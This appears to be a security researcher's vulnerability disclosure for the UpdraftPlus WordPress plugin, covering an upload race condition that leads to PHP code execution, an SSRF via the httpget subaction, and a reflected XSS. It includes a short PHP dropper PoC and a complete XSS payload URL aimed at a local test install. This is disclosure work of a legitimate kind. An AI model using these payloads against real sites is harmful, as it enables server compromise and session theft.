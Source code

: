 ﻿# wordpress plugin updraftplus vulnerablity

标签（空格分隔）： 未分类

---

# authentiicated upload file and php code execution #

file `/wp-content/plugins/updraftplus/admin.php` line 1843 function `plupload_action`

via the name parameter to set filename, and move file content into this file.

![image.png-72.3kB][1]

after the 39 lines, this file be delete
![image.png-296.3kB][2]

there are Race condition, when we view this pages before delete after write in. we can make php code execution.


## PoC ##

file content:
```
<?php
$f = fopen('../a.php','wb');
fwrite($f, '<?php phpinfo();?>');
fclose($f);
```

via upload this file, and view this pages before delete, we can write a a.php into `/wp-content/a.php`

![image.png-105.2kB][3]

![image.png-89.2kB][4]

![image.png-172.5kB][5]

# authentiicated ssrf #

file `/wp-content/plugins/updraftplus/admin.php` line 1233 function updraft_ajax_handler 

when `subaction='httpget'`the curl parameter follow into function http_get,

![image.png-26.1kB][6]

![image.png-163.4kB][7]

they will use curl to request url, it can be exploited to conduct server-side request forgery (SSRF) attacks.



## PoC ##

login and view website
```
http://127.0.0.1/wordpress4.8/wp-admin/options-general.php?page=updraftplus&tab=expert
```

![image.png-8.9kB][8]

use fetch(curl)

![image.png-20.9kB][9]


## authentiicated reflected xss ##

管理员权限
```
http://127.0.0.1/wordpress4.8/wp-admin/admin-ajax.php?action=updraft_ajax&subaction=httpget&nonce=69b5fc40ca&uri=http%3A%2F%2F0%2F<img src=233 onerror=alert(1)>&curl=1
```


  [1]: http://static.zybuluo.com/LoRexxar/ypg8xnr3sond8644y8swl8jc/image.png
  [2]: http://static.zybuluo.com/LoRexxar/68a8puqj0k96ifgmryzi2ogw/image.png
  [3]: http://static.zybuluo.com/LoRexxar/u7y5hg3m1y2nj2c8kxbbhuk6/image.png
  [4]: http://static.zybuluo.com/LoRexxar/8o61e5tla9dglj0m5g2z7349/image.png
  [5]: http://static.zybuluo.com/LoRexxar/r1pfhrohhin6kj295zoqckjh/image.png
  [6]: http://static.zybuluo.com/LoRexxar/nvvhoe3gxmepnug6yf6aaojr/image.png
  [7]: http://static.zybuluo.com/LoRexxar/pksfa3e4gtjg6ztgnuubedkb/image.png
  [8]: http://static.zybuluo.com/LoRexxar/smc72erghubs8a1xvtzo5sjp/image.png
  [9]: http://static.zybuluo.com/LoRexxar/qa12ejx4ad0pf4c245fe3nqg/image.png